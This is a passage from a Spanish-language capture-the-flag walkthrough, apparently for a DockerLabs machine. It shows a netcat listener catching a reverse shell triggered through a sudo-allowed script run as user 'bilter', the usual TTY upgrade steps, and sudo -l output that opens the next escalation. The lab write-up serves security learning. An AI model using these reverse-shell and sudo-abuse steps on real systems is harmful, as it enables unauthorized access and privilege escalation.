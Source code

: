 ```shell
sudo ip addr add 172.17.0.186/16 dev docker0
```

Y una vez que ya hayamos añadido la `IP`, nos pondremos a la escucha con el siguiente puerto:

```shell
nc -lvnp 6068
```

En la maquina victima ejecutamos lo siguiente:

```shell
sudo -u bilter /opt/life.sh
```

Y ahora si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 6068 ...
connect to [172.17.0.186] from (UNKNOWN) [172.17.0.3] 39342
whoami
bilter
```

Vemos que somos dicho usuario.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user purter

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for bilter on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bilter may run the following commands on dockerlabs:
    (ALL : ALL) NOPASSWD: /usr/local/bin/dead.sh
```
